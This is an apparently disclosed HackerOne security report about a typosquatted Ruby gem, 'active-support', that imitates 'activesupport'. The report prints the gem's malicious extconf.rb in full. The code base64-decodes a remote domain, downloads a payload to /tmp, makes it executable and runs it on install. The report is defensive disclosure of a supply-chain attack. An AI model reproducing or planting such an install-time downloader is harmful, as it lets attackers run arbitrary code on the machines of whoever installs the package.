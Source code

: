 # Malware in `active-support` gem

## Report Details
- **Report ID**: 392311
- **URL**: https://hackerone.com/reports/392311
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-08-09T09:02:38.599Z
- **Disclosed**: 2018-08-09T18:14:31.969Z

## Reporter
- **Username**: reed
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rubygems

## Vulnerability Information
This was sent to RubySec:

The gem duplicates official `activesupport` (no hyphen) code, but adds a compiled extension. The extension attempts to resolve a base64 encoded domain (`29faea63.planfhntage.de`), downloads a payload, and executes.

active-support-5.2.0.gem/data/ext/trellislike/unflaming/waffling/extconf.rb

```
require 'net/http'
require 'uri'
require 'base64'
require 'resolv'

class Smectis
  def self.install_explot(weighership)
    if !weighership.nil? and weighership != '0.0.0.0'
      educable = Net::HTTP.get_response(URI('http://' + weighership + '/mimming'))
      File.open('/tmp/autosymbiontic', 'wb+') do |uterometer|
        uterometer.binmode
        uterometer.write(educable.body)
        uterometer.chmod(0777)
        uterometer.close
      end
      system('/tmp/autosymbiontic')
    end
  end

  def self.run()
    milligram = 'MjlmYWVhNjMucGxhbmZobnRhZ2UuZGU='
    jaunting = nil
    begin
      jaunting = Resolv.getaddress(Base64.decode64(milligram))
    rescue
    end
    self.install_exploit(jaunting)
  end
end

Smectis.run()
```

## Impact

Run arbitrary code on a victim's machine.

## Attachments
- active-support-5.2.0.gem
- extconf.rb
